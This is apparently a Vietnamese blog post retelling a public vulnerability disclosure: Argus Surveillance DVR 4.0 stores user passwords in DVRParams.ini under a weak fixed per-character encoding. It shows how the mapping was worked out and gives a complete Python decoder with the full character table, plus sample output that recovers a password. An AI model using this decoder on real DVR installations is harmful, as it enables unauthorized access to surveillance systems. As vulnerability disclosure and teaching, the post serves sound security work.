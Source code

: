 ```yaml
---
title: Bẻ khóa mật khẩu ứng dụng giám sát camera Argus
date: 19/7/2021
layout: single
header:
  teaser: /assets/images/crack.jpg
---
```

## Mô Tả 
Trong một lần gần đây nhất, tôi đã xem `Argus Surveillance DVR 4.0` đang sử dụng mã hóa yếu cho mật khẩu.

+ Phiên bản:  Argus Surveillance DVR 4.0
+ Tác giả: Salman Asad (@deathflash1411)
+ Thử nghiệm: Windows 7 x86 (Build 7601) & Windows 10

## Khai thác  
Argus Surveillance DVR 4.0 đang lưu trữ cấu hình trong một tệp có tên `DVRParams.ini`nằm trong
 `C:\ProgramData\PY_Software\Argus Surveillance DVR`


![](https://i.imgur.com/KYcjQOM.png)
+ Đã tạo một tài khoản thử nghiệm với kiểm tra tên người dùng và kiểm tra mật khẩu

![](https://i.imgur.com/cbwtBsN.png)
+ Cấu hình đang lưu trữ mật khẩu của người dùng dưới dạng băm 

+ Một điều thú vị  là bốn ký tự đầu tiên và bốn ký tự cuối cùng trong mã băm giống nhau `E03B`vì mật khẩu của  đã được kiểm tra trong đó ký tự đầu tiên và ký tự cuối cùng giống nhau `t`

+ Điều này xác nhận rằng `t=E03B` , Tôi đã giả định rằng mỗi ký tự trong mật khẩu có 4 ký tự trong hàm băm
+ ![](https://i.imgur.com/cZhNqwc.png)
 Thật thú vị, hãy thay đổi mật khẩu thành `1234567890` (10 ký tự)
![](https://i.imgur.com/trhdvQE.png)
+ Đây là hàm băm mật khẩu mới trong `DVRParams.ini`
![](https://i.imgur.com/NM50Tbq.png)
+ Giả định của tôi là đúng vì hàm băm mật khẩu dài chính xác 40 ký tự (10 * 4)

+ Tương tự, tôi đã thay đổi mật khẩu thành `abc...xyz`và `ABC...XYZ`và ghi lại các giá trị cho mỗi ký tự

+ Dựa trên những phát hiện ở trên, tôi đã viết một đoạn mã đơn giản để giải mã hàm băm mật khẩu

Mã khai thác: [exploits/50130](https://www.exploit-db.com/exploits/50130)

```python
characters = {
'ECB4':'1','B4A1':'2','F539':'3','53D1':'4','894E':'5',
'E155':'6','F446':'7','C48C':'8','8797':'9','BD8F':'0',
'C9F9':'A','60CA':'B','E1B0':'C','FE36':'D','E759':'E',
'E9FA':'F','39CE':'G','B434':'H','5E53':'I','4198':'J',
'8B90':'K','7666':'L','D08F':'M','97C0':'N','D869':'O',
'7357':'P','E24A':'Q','6888':'R','4AC3':'S','BE3D':'T',
'8AC5':'U','6FE0':'V','6069':'W','9AD0':'X','D8E1':'Y','C9C4':'Z',
'F641':'a','6C6A':'b','D9BD':'c','418D':'d','B740':'e',
'E1D0':'f','3CD9':'g','956B':'h','C875':'i','696C':'j',
'906B':'k','3F7E':'l','4D7B':'m','EB60':'n','8998':'o',
'7196':'p','B657':'q','CA79':'r','9083':'s','E03B':'t',
'AAFE':'u','F787':'v','C165':'w','A935':'x','B734':'y','E4BC':'z'}

pass_hash = "418DB740F641E03B956BE1D03F7EF6419083956BECB453D1ECB4ECB4"
if (len(pass_hash)%4) != 0:
    print("[!] Error, check your password hash")
    exit()
split = []
n = 4
for index in range(0, len(pass_hash), n):
    split.append(pass_hash[index : index + n])

for key in split:
    if key in characters.keys():
        print("[+] " + key + ":" + characters[key])
    else:
        print("[-] " + key + ":Unknown")

```
```powershell
#########################################
#    _____ Surveillance DVR 4.0         #
#   /  _  \_______  ____  __ __  ______ #
#  /  /_\  \_  __ \/ ___\|  |  \/  ___/ #
# /    |    \  | \/ /_/  >  |  /\___ \  #
# \____|__  /__|  \___  /|____//____  > #
#         \/     /_____/            \/  #
#        Weak Password Encryption       #
############ @deathflash1411 ############

[+] 418D:d
[+] B740:e
[+] F641:a
[+] E03B:t
[+] 956B:h
[+] E1D0:f
[+] 3F7E:l
[+] F641:a
[+] 9083:s
[+] 956B:h
[+] ECB4:1
[+] 53D1:4
[+] ECB4:1
[+] ECB4:1

```

Lưu ý: thay thế giá trị của `pass_hash`trong tập lệnh bằng mã băm mật khẩu bạn lấy được từ `DVRParams.in`

## Cảm Ơn :D


